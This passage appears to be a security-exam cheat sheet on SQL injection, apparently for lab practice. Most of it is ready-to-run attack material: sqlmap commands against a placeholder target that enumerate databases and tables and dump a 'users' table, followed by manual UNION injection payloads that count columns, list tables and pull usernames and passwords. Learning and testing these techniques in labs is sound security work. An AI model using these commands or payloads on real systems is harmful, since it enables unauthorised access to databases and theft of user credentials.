 ![SQLMAP used to dump data from tables](images/sqlmap-dump-table-data.png)  

>This is also a good start with SQLMAP to ***identify*** and extract data from a sensitive error based time delay SQL injection in advance search filters on the exam.  

```
sqlmap -v -u 'https://TARGET.NET/search?term=x&organizeby=DATE&journalist=&cachebust=1656138093.57' -p "term" --batch --cookie="_lab=YESYESYESYES; session=YESYESYESYES" --random-agent --level=2 --risk=2
```  

![sqlmap 1.7.2 stable](images/2023-03-21_18-20_1.png)

[SQLMAP Help usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)  

>SQLMAP DBS to get databases.  

```
-p 'sort-by' -batch --dbms postgresql --technique E --level 5 --dbs
```  

>Use SQLMAP dump tables identified from `public` database.  

```
-p 'sort-by' -batch --dbms postgresql --technique E --level 5 -D public --tables
```  

>ContinueUse SQLMAP `E` Technique to get the `users` content.  

```
-p 'sort-by' -batch --dbms postgresql --technique E --level 5 -D public -T users --dump
```  

### Non-Oracle Manual SQLi  

>SQL injection UNION attack, determining the **number of columns** returned by the query.  

```SQL
'+UNION+SELECT+NULL,NULL--
```  

>Determined there is **two** columns returned. Finding a column containing ```text```, to be used for reflecting information extracted.  

```SQL
'+UNION+SELECT+'fuzzer',NULL--
```  

>Next ***identifying*** a list of **tables** in the database.  

```SQL
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```  

>**OPTIONAL:** Retrieve data from other tables, use code below payload to retrieve the contents of the ```users``` table.  

```SQL
'+UNION+SELECT+username,+password+FROM+users--
```  

